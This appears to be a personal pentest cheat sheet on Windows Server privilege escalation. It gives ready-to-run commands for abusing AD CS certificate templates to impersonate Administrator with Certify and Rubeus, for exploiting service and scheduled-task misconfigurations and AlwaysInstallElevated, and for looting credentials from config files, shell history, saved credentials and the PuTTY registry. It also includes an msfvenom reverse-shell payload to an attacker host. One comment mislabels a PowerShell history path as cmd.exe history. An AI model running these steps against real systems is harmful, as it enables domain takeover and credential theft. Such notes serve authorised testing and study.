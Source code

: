 ```yaml
---
title: Windows Server privilege-escalation notes
---
```


## AD Certificate Services
Being within AD domain where the AD CS is installed, a domain user can request a X.509 certificate for different purposes (including AD authentication via PKINIT feature). AD CS has admin-defined **Certificate Templates** that specify available parameters and values of a requested certificate.

Most important values:

* CA Name - which server is the Certified Authority for the cert.
* Template Name - the name of the cert template.
* Enrollment Rights - who can request (which group of users) such a cert.
* PKI Extended Key Usage - what's the purpose of the cert.

`Certify` is a tool to enumerate and abuse misconfiguration in AD CS (vulnerable certificate templates).

```powershell
# Check possible vulnerabilities in AD certificates
Certify.exe find /vulnerable
```

If any user can enroll this certificate (e.g. _Domain Users_ group), its purpose is defined as _Client Authentication_ (an user can auth to AD using this cert) and ENROLLEE_SUPLIES_SUBJECT flag is set (subject of the cert is defined by enrollee)... **privilege escalation**! Any user can enroll the certificate for Administrator and use it to perform AD authentication.

```powershell
# Request an certificate for Administrator
Certify.exe request /ca:<ca-name> /template:<template-name> /altname:Administrator

# Request Kerberos TGT using the received certificate
Rubeus.exe asktgt /user:Administrator /certificate:<cert.pfx> /password:password /ptt

# Check if privilege escalation works (it might not work but look for NT hash)
dir \\<dc>\C$
```

Requesting TGT using the certificate (with `Rubeus`) should return user's NT hash that can be use to **pass-the-hash** (if PKINIT is enabled). It uses so-called user-to-user (u2u) auth - the user authenticates to itself using Kerberos and retrieves its NT hash.

**NOTE**: Certify.exe returns a `PEM` format certificate. It must be converted into the `PFX` format to use it with `Rubeus`:

```bash
openssl pkcs12 -in <cert.pem> -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out <cert.pfx>
```

> **RESOURCES**: [Awesome BlackHat explanation](https://www.youtube.com/watch?v=ejmAIgxFRgM), [corresponding blog post](https://posts.specterops.io/certified-pre-owned-d95910965cd2)

Most `impacket` tools are able to work with TGT authentication.

## Misconfigurations

### Scheduled tasks
If an attacker is able to modify the `Task To Run` file, he can run a code with `Run As User` privileges.

```powershell
# List all scheduled tasks
schtasks /query /tn <task-name> /fo list /v

# Check file permissions
icacl <path>
```

### Services

```bash
# Generate rev-shell service executable
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<attacker-ip> LPORT=<port> -f exe-service -o my-service.exe
```

#### Executable permissions
The executable associated with a service might have insecure permissions. The attacker modifing or replacing the executable can gain the privileges of the service's account.

```powershell
icacls <executable-path>                    # Show DACL of the executable
```

#### Unquoted paths
If the service's executable points to an unquoted path with spaces, SCM tries to execute firt binary which is the first part of the unqoted path. This SCM feature is basically disgusting but it works. It allows an attacker to put malicious service binary in the "wrong" path and run it before a legit one will be executed.

Example:

```text
Path        : C:\MyPrograms\Disk Sorter.exe
Executed 1st: C:\MyPrograms\Disk.exe
Executed 2nd: C:\MyPrograms\Disk Sorter.exe
```

#### Service permissions
The service DACL might allow to reconfigure service settings. This allows an attacker to point a malicious executable to the service and even change the account which the executable is run with.

To check a service DACL the [Accesschk](https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk) tool might be necessary.

```powershell
accesschk64.exe -qlc <svc-name>             # Check the service DACL

# Reconfigure service: run :exe-path with Local SYSTEM account
sc.exe config <svc-name binPath= "<exe-path" obj= LocalSystem
```

### AlwaysInstallElevated
`.msi` files are used to install applications on the system. They usually run with the privileges of the current user but sometimes it might be configured to run installation files with higher privileges from any user account. Malicious `.msi` files can be generated using `msfvenom` tool.

```powershell
# Check if AlwaysInstallElevated is set
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer

# Execute an .msi file
msiexec /quiet /qn /i <path>
```

## Credentials looting

### Files

#### IIS configuration
Configuration files of the IIS web server might store some credentials.

```cmd
C:\inetpub\wwwroot\web.config
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
```

#### Unattended Windows installations
If the OS is installed remotely (unattended installation) there is a chance that the installation config file is still somwhere in the file system. It might include credentials.

```cmd
C:\Unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
```

### Shell history

```powershell
# To read history from cmd.exe
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

```powershell
# To read history from Powershell
type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

### Memory-saved credentials

```powershell
# Show saved credentials and accounts in a memory
cmdkey /list
```

> **NOTE**: Even if the credentials are not shown, you can use the `runas /savecred /user:<user> cmd.exe` command in order to use them from a memory.

### SSH software
PuTTY is propably the most common SSH client for Windows in use. It often stores session parameters (e.g. proxy configuration) in the Windows registry.

```powershell
# Show PuTTY configuration
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```
